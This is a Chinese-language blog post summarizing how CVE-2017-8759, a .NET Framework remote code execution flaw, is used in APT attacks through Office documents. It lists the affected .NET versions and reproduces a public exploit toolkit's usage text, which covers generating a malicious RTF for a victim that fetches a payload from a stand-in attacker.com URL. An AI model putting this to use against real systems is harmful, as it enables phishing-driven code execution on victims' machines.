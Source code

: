 ```yaml
---
layout:     post
title:      APT常用文档漏洞--CVE-2017-8759
subtitle:   CVE-2017-8759
date:       2018-11-05
author:     DC
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - CVE-2017-8759
    - RCE
    - VUL
    - APT
---
```




# CVE-2017-8759

总结之前做过的APT常见利用手法  [开源文档1](https://github.com/Lz1y/CVE-2017-8759)  [2](https://github.com/bhdresh/CVE-2017-8759)  [3](https://referencesource.microsoft.com/#System.Runtime.Remoting/metadata/wsdlparser.cs,1bd2c5d8fcea7a6b)

#### 漏洞简介

在Offcie文档中嵌入新的Moniker对象，利用的是.net库漏洞，在Office文档中加载执行远程的恶意.NET代码，原因是.NET Framework一个换行符处理失误，该漏洞影响所有主流的.NETFramework版本。由于主流的windows操作系统都默认内置了.net框架，黑客通过office文档嵌入远程的恶意.net代码进行攻击。

影响范围：windows office 用户

```
Microsoft .NET Framework 4.6.2
Microsoft .NET Framework 4.6.1
Microsoft .NET Framework 3.5.1
Microsoft .NET Framework 4.7
Microsoft .NET Framework 4.6
Microsoft .NET Framework 4.5.2
Microsoft .NET Framework 3.5
Microsoft .NET Framework 2.0 SP2 
```

#### 漏洞利用方法

用的是开源1 2 提供的工具list

```python
# python cve-2017-8759_toolkit.py -h
This is a handy toolkit to exploit CVE-2017-8759 (Microsoft .NET Framework RCE)
Modes:
-M gen                                          Generate Malicious file only
     Generate malicious RTF file:
      -w <Filename.rtf>                   Name of malicious RTF file (Share this file with victim).
      -u <http://attacker.com/test.txt>   Path of remote txt file. Normally, this should be a domain or IP where this                                          tool is running.                                         For example, http://attackerip.com/test.txt (This URL will be included in 	                                              malicious RTF file and will be requested once victim will open malicious RTF file.

				      
-M exp                                          Start exploitation mode

     Exploitation:
  
      -p <TCP port:Default 80>            Local port number.

```